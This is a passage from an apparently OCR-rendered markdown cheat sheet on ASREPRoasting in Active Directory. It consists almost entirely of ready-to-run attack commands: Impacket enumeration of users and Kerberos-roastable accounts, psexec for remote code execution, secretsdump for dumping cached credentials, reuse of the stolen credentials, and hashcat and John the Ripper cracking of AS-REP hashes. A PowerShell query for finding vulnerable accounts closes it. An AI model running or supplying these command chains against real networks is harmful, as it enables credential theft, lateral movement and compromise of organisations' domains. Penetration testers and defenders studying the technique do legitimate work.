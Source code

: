 ### User Enumeration Chain
```bash
# Step 1: Get valid user list via LDAP
python3 GetADUsers.py domain.com/user:password -dc-ip 192.168.1.10 -all

# Step 2: Check users for ASREPRoast
python3 GetNPUsers.py domain.com/user:password -dc-ip 192.168.1.10 -request

# Step 3: Also check for Kerberoasting
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request
```

### Post-Exploitation Enhancement
```bash
# Step 1: Gain initial access
python3 psexec.py domain.com/user:password@target.domain.com

# Step 2: Extract cached credentials
python3 secretsdump.py domain.com/user:password@target.domain.com

# Step 3: Use extracted credentials for ASREPRoast
python3 GetNPUsers.py domain.com/extracted_user:password -dc-ip 192.168.1.10 -request
```

## Hash Cracking

### Hashcat Usage
```bash
# Crack AS-REP hashes with hashcat
hashcat -m 18200 asrep_hashes.txt wordlist.txt

# Use rules for better cracking
hashcat -m 18200 asrep_hashes.txt wordlist.txt -r rules/best64.rule

# Brute force attack
hashcat -m 18200 asrep_hashes.txt -a 3 ?u?l?l?l?l?l?d?d
```

### John the Ripper Usage
```bash
# Crack with John the Ripper
john --wordlist=wordlist.txt asrep_hashes.txt

# Show cracked passwords
john --show asrep_hashes.txt
```

## Target Identification

### Finding ASREPRoast Targets
```powershell
# PowerShell command to find users with pre-auth disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```
